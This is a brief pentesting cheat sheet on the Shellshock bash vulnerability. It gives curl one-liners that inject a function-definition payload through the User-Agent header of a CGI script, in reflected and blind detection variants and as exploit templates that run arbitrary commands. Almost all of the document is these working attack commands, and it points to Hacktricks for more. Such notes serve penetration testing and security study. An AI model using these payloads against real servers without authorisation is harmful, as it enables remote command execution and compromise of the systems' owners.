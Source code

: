 # Shellshock

## Detection

### Reflected

```
$ curl -fs -H "user-agent: () { :; }; echo; echo 'VULNERABLE'" http[s]://<IP>/cgi-bin/vulnerable | grep VULNERABLE
```

### Blind

```
$ curl -fs -H "user-agent: () { :; }; /bin/bash -c 'sleep 5'" http[s]://<IP>/cgi-bin/vulnerable
```

## Exploit

```
$ curl -fs -H "user-agent: () { :; }; <commands>" http[s]://<IP>/cgi-bin/vulnerable

$ curl -fs -H "user-agent: () { :; }; <commands>" http[s]://<IP>/cgi-bin/vulnerable
```

---
## References

### Hacktricks

- [Hacktricks: CGI](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/cgi.html)